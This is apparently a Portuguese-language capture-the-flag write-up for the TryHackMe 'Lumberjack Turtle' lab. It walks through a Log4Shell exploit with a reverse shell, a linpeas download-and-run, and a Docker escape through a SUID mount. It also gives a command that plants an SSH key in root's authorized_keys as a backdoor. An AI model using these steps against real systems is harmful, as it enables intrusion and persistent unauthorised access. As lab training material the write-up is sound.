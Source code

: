 # CTF-LUMBERJACK-THM
**Dificuldade - Média**

>Opa! parece que eu lembrei a senha do github... 🤥

<a href="https://tryhackme.com/room/lumberjackturtle"><img src="https://user-images.githubusercontent.com/32500664/161400606-1bf15aab-36be-4994-a601-e8c666be82c6.png"></a>

A maquina dá vez é a [Lumberjack Turtle](https://tryhackme.com/room/lumberjackturtle)

<h3>A maquina dá vez aborda os tópicos: CVE-2021-44228, Container Escape, Log4shell.<h3>

# 1 Enumeração:
  Pra começar a brincadeira primeiro a gente tem que descobrir com quem a gente ta brincando.
  ![1 Rodando nmap](https://user-images.githubusercontent.com/32500664/161874493-28914374-937f-4b7a-9716-d2698b6aa2b0.png)

# Pagina porta 80:
  ![2 Conteudo port80](https://user-images.githubusercontent.com/32500664/161875415-fd2367df-c044-4192-b7a6-8094404f1994.png) 
### Fuzzing na pagina 80.
  ![4 Resultado Fuff](https://user-images.githubusercontent.com/32500664/161875603-644316a9-bc69-401f-950b-2638fbdc222f.png)
  
### Pagina ~logs:
  ![5Pagina ~logs fuff](https://user-images.githubusercontent.com/32500664/161876245-742657dc-2f27-4069-b59c-78aed984566d.png)
  
### Como ele mesmo disse... Go deeper.
  ![7 Resultado fuff logs](https://user-images.githubusercontent.com/32500664/161876392-1b576890-0bbd-44c7-97ec-05fbb3aa6d04.png)

### /~logs/log4j
  ![8 Conteudo logs lo4j](https://user-images.githubusercontent.com/32500664/161878823-026187ed-469f-4a58-83e4-1f4306911a48.png)

# Explorando Log4shell:
  
### Bem didático qual a vulnerabilidade que temos que explorar.
  Vamos baixar a [ferramenta](https://github.com/welk1n/JNDI-Injection-Exploit) que vai gerar os Links JNDI que iremos injetar.
  ![9 Baixando exploit](https://user-images.githubusercontent.com/32500664/161882105-bbff5bf7-2985-4b02-a2d2-2335e1f706e8.png)

>Uma site gerador de payloads reverse shell bem simples de ser usado é o [reverse shell generator](https://www.revshells.com)
  
### Com o comando em mãos vamos usar a ferramenta para gerar os links JNDI
  ![9 1 Comando exploit](https://user-images.githubusercontent.com/32500664/161884764-6037c6f9-98df-4161-95b7-9db349b79797.png)

  ### Depois de executar o comando vamos pegar um link gerado e inserir na request.
  ![10 Usando exploit](https://user-images.githubusercontent.com/32500664/161885374-9e864f3b-7e72-407f-99bc-e9436cebc180.png)
  
  ### Adicionando um link ao corpo da requisição temos ação...
  
  ![10 1 Request com log4shell](https://user-images.githubusercontent.com/32500664/161885389-e8e8e04f-3226-4229-a3e7-82777c6a74af.png)

  ### ...e reação.
  
  ![11 recebendo shell](https://user-images.githubusercontent.com/32500664/162006254-d0cb090f-a2a5-4af3-bb1f-0d39ea7ddf3f.png)

  ### Cheguei chegando né ? 
  ![12 verificando user](https://user-images.githubusercontent.com/32500664/162014860-149567ca-7588-48cc-b18d-d9f8f7801eb8.png)
  
  ### Entramos aqui com um objetivo não ?
  ![13 Find na 1 flag](https://user-images.githubusercontent.com/32500664/162027118-017a73d1-d5e7-40f0-acc5-71ec1915ee20.png)
  
  ![14 pegando primeira flag](https://user-images.githubusercontent.com/32500664/162027152-1a6d4563-c6d4-4f2b-8582-34342b1a66bd.png)

# Tá faltando uma flag não tá ?
  ### Depois de um tempo procurando tive a ideia de usar o linpeas para ver se dá uma luz.
 > para baixar o script na maquina use o comando `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`  e em seguinda `bash. /linpeas.sh`

  ## Dando uma olhada no que o script me diz encontro uma seção afirmando que estou dentro de um container.
  ![16 descobrindo q é container](https://user-images.githubusercontent.com/32500664/162085746-a00cc933-1d63-4b2d-9177-55bb057e9d5a.png)
 
  ### E támbém é importante olhar a seção com permissões SUID
  >O SUID é definido para dar permissões temporárias para um usuário executar um programa ou arquivo com as permissões do proprietário do arquivo.
  
  # No caso temos permissão SUID ao executar o Mount
  ![18 mount SUID](https://user-images.githubusercontent.com/32500664/162086276-088cb595-82c0-4951-b76e-7e4228d21587.png)

### Estamos em um container com permissão SUID no Mount... tá na hora escapar desse container já né ?
  
  # Container Escape:
  
  # Dando uma estudadinha sobre Docker Escape no [hacktryckz](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#mounting-disk-poc1) aprendemos que podemos montar e ter acesso aos arquivos do sistema hospedeiro.
  
  ### Vamos procurar os discos.
  
  ![19 verificando discos](https://user-images.githubusercontent.com/32500664/162098227-4cd0ebf1-af4c-4d42-af8c-671d0d1a7fd7.png)

  ### Após criar uma pasta onde será criada o disco usando `mkdir /mnt/host` vamos montar o sistema do hospedeiro.
  
  ![21 montando host](https://user-images.githubusercontent.com/32500664/162098208-0bb75e0f-5662-4f3c-9556-13f0e241d760.png)

  ### Mesmo depois de tudo isso o criador da maquina dormiu com um palhaço antes...
  
  ![22 root flag bait](https://user-images.githubusercontent.com/32500664/162098189-e8863c1b-39dc-47cf-b831-efa0e99bb097.png)

  ### Como temos acesso aos arquivos do hospedeiro podemos criar um "backdoor" adicionando nossa chave publica do ssh no arquivo *authorized_keys* dentro do pasta `.ssh` dentro da pasta de usuário root
  
  > Para criar as chaves ssh use o comando `ssh-keygen`
  > Para inserir a chave dentro do arquivo vamos utilizar o comando `echo "${Chave} >>> /root/.ssh/authorized_keys`
  
  ![24 Colocando pub key no arquivo](https://user-images.githubusercontent.com/32500664/162098173-1428dd16-2055-4e1c-8190-4d8c0730bce8.png)

  ### Após ter feito isso vamos nos conectador a maquina hospedeira usando o ssh e nossa chave id_rsa
  
  ![25 conenctando na maquina](https://user-images.githubusercontent.com/32500664/162098114-00ac3d02-20ef-4a35-9649-1bffe295e8ab.png)
  
  ### Escape realizado e agora vamo procurar a tal flag.
  >Como não encontrei nada com o comando find vamos ao diretório do usuário root e usar o comando `ls -laR`.
  > o -l lista as permissões.
  > o -a lista todos arquivos inclusive os ocultos.
  > o -R lista diretórios e subdiretórios recursivamente.
  
  ![26 Procurando arquivo flag](https://user-images.githubusercontent.com/32500664/162098076-e5d38954-061e-4d42-a23b-eae5d28d6a80.png)
  
  ![27 resultado FIND NA FLAG ROOT](https://user-images.githubusercontent.com/32500664/162098079-c8598efc-42aa-4df9-aab1-672a0048ecc9.jpg)

  ### E voilà! Temos a ultima flag.
  
  ![28 cat flagroot](https://user-images.githubusercontent.com/32500664/162098026-0d64f49e-0823-4268-b8cf-0f54d82bf305.jpg)

  
  
  
  
  
